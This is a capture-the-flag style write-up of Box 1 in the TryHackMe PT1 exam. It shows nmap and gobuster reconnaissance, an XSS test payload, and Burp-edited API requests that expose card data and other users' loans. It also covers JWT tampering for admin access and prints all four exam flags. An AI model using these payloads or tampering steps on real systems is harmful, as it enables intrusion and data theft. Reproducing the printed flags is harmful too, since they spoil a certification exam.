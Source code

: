 ```yaml
---
title: "TryHackMe: PT1"
author: c3l1kd
categories: [TryHackMe]
tags: [web application, xss, information disclosure, reconnaissance, nmap, gobuster, burp suite, sql injection, sqlmap, netcat, windows, smb, winrm, evil-winrm, privilege escalation, sebackupprivilege, impacket, bloodhound, kerberos, hashcat, alwaysinstallelevated, linpeas, linux, suid]
render_with_liquid: false
img_path: /images/tryhackme_pt1/
image:
  path: room_image.png
---
```


> THIS IS NOT DETAIL WRITE UP BUT YOU FEEL LIKE COMPLETE😊ALSO SOME SCREENSHOTS ARE NOT AVALIBLE BUT YOU CAN UNDERSTAND
{: .prompt-tip }
## TryHackMe PT1 Certification Overview

**TryHackMe Penetration Tester 1 (PT1)** certification is a practical, hands-on exam designed to validate the skills of aspiring and current Junior Pentesters. It simulates realistic scenarios across three core sections: `Application`, `Network`, and `Active Directory Pentesting`. Candidates are evaluated on their ability to identify, exploit, and report on vulnerabilities, mirroring real-world offensive security engagements. The exam emphasizes fundamental skill sets, including:

- **Reconnaissance & Enumeration:** (`Gathering information using passive and active techniques.`)
- **Web Application Testing:** (`Identifying, exploiting, and reporting common web vulnerabilities.`)
- **Network Penetration Testing:** (`Understanding internal and external network testing techniques.`)
- **Active Directory Exploitation:** (`Performing enumeration and attacks in an Active Directory environment.`)
- **Exploitation & Post-Exploitation:** (`Exploiting vulnerabilities and maintaining access to compromised systems.`)
- **Reporting & Time Management:** (`Documenting findings clearly and managing time effectively within the 48-hour exam duration.`)

> This report serves as a comprehensive documentation of the techniques and findings from the PT1 exam, demonstrating proficiency across these critical domains.
{: .prompt-tip }

## Box 1 (Web Server - API & XSS)
This target primarily involved web application vulnerabilities, specifically Cross-Site Scripting (XSS) and Information Disclosure through API endpoints.

> IP : `10.200.150.100`
{: .prompt-tip }

## Reconnaissance 
```console
$ nmap -sCV -p- -T4 10.200.150.100 -oN 10.200.150.100.txt
Starting Nmap 7.92 ( https://nmap.org ) at 2025-06-07 10:00 EDT
Nmap scan report for 10.200.150.100
Host is up (0.00020s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Werkzeug httpd 3.1.3 (Python 3.12.3)
8080/tcp open  http    Werkzeug httpd 3.1.3 (Python 3.12.3)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.23 seconds
```
> Nothing Found Better In Nmap😁
Let's Make Directory Brute-Forcing Found Find Hidden Dir 
Tool : `gobuster`
```console
$ gobuster dir -u http://10.200.150.100/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt,json,xml --status-codes 200,301,302,403
===============================================================
Gobuster v3.5
by OJ (https://github.com/OJ/gobuster)
===============================================================
[+] Url:                     http://10.200.150.100/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:            200,301,302,403
[+] User Agent:              gobuster/3.5
[+] Extensions:              php,html,txt,json,xml
[+] Timeout:                 10s
===============================================================
2025/06/07 10:05:12 Starting gobuster in directory enumeration mode
===============================================================
/loans                (Status: 301)
/api                  (Status: 301)
/index.html           (Status: 200)
/admin                (Status: 403)
... (truncated)
```

we found `http://10.200.150.100/loans/`

> you found login page login with default credits `attacker` : `attacker` website so top you see `create` button. You will navigate to `http://10.200.150.100/loans/create`.

JUST TEST IT WITH FAKE DETAILS 

## AS I OBSERVE!
WHEN I CICK ON `CONTINUE` BUTTON IN NETWORK TAB I SEE THE API IS COMING `http://10.200.150.100:8080/api/v1.0/test`

NOTE HERE API IS : `http://10.200.150.100:8080/api/v1.0/`

LETS TEST MORE BUY XSS PAYLOAD LETS SEE INFECTING OR NOT

LETS INPUT HERE AND CONTINUE
![page](01.png){: width="1200" height="600"}
TEST PAYLOAD USED : `<img src=x onerror=(document.cookie='XSS=XSS')>`
I SEE THE POPUP MESSAGE SO IT XSS PAYLOAD
SO IT INJECTED LETS GET THE FLAG NOW

To Get The Flag
```console
$ curl -H 'Content-Type: application/json' -X POST -d '{ "username" : "attacker", "password" : "attacker" }' http://10.200.150.100:8080/api/v1.0/xss
{"flag":"THM{0c8cb256-0c8a-4b59-ac87-1bbb609bef4f}","message":"XSS Success"}
```
Flag-1  Obtained: `THM{0c8cb256-0c8a-4b59-ac87-1bbb609bef4f}`

## 1.2 Information Disclosure
- **Vulnerability Type**: `Information Disclosure via API Endpoints`
To Exploit This Make Sure Brup Is On
![page](02.png){: width="1200" height="600"}
![03](03.png){: width="1200" height="600"}

Now As You Observe In Brup
![brup](04.png){: width="1200" height="600"}
URL Accessed: `http://10.200.150.100:8080/api/v1.0/card`
In This End Pont You Will Observer There Is An Card Details Try To Edit And Send The Req To The Server 
![flag](05.png){: width="1200" height="600"}
```console
http://10.200.150.100:8080/api/v1.0/card
HTTP/1.1 200 OK
Server: Werkzeug/3.1.3 Python/3.12.3
Date: Sat, 07 Jun 2025 11:02:59 GMT
Content-Type: application/json
Content-Length: 142
Access-Control-Allow-Origin: http://10.200.150.100
Vary: Origin
Connection: close
{"details":{"active":0,"cardNumber":"375914494718066","cvv":"057","expiry":"1/12","flag":"4
cac-bfab-10d5f55ad360}"},"message":"Card updated"}
```
YOU GOT SECOND FLAG 
Flag 2 Obtained: `THM{727723c6-2fe3-4cac-bfab-10d5f55ad360}`

Same Process For Third Flag 

End Point You See : `http://10.200.150.100:8080/api/v1.0/loan?loan_number=e086fc22-85ca-4376-a39a739cdc49c23p`

Now Change The Loan Number You Will Get A Flag
![06](06.png){: width="1200" height="600"}
```console
HTTP/1.1 200 OK
Server: Werkzeug/3.1.3 Python/3.12.3
Date: Sat, 07 Jun 2025 15:55:33 GMT
Content-Type: application/json
Content-Length: 255
Access-Control-Allow-Origin: http://10.200.150.100
Vary: Origin
Connection: close
{"details":{"amount":50000,"approved":1,"createdAt":"Sat, 07 Jun 2025 15:52:05
GMT","description":"i'm goribs","interest":5,"loan_number":"e086fc22-85ca-4376-a39a739cdc49c22f"},"flag":"THM{9c1a8e66-40b5-41fc-8bde-f821865a5a57}","message":"Loan
updated"}
```
YOU GOT THRID FLAG 
Flag 3 Obtained: `THM{9c1a8e66-40b5-41fc-8bde-f821865a5a57}`

## FINAL FLAG FOR BOX-1
USER UPDATE 
GO TO PROFILE CHANGE THE DETAILD CLICK ON UPDATE 

YOU SEE THE BRUP REQ AND NOW CHANGE THE DETAILS TO ADMIN BUT PROBLEM IS YOU NEED TO GET ADMIN `JWT` FOT TO GET THAT TRY YOU TOOLS LIKE JWT TOKEN EDITE ALSO IN ONLINE SOURCE

YOU GET FINAL FLAG 
![brup](07.png){: width="1200" height="600"}

```console
HTTP/1.1 200 OK
Server: Werkzeug/3.1.3 Python/3.12.3
Date: Sat, 07 Jun 2025 16:21:35 GMT
Content-Type: application/json
Content-Length: 78
Access-Control-Allow-Origin: http://10.200.150.100
Vary: Origin
Connection: close
THM{ad3bbf7b-a8e4-40de-b839-91ba91329eb5}
{"flag":"THM{ad3bbf7b-a8e4-40de-b839-91ba91329eb5}","message":"User updated"}
```
Final Flag Obtained: `THM{ad3bbf7b-a8e4-40de-b839-91ba91329eb5}`

BOX 1 DONE

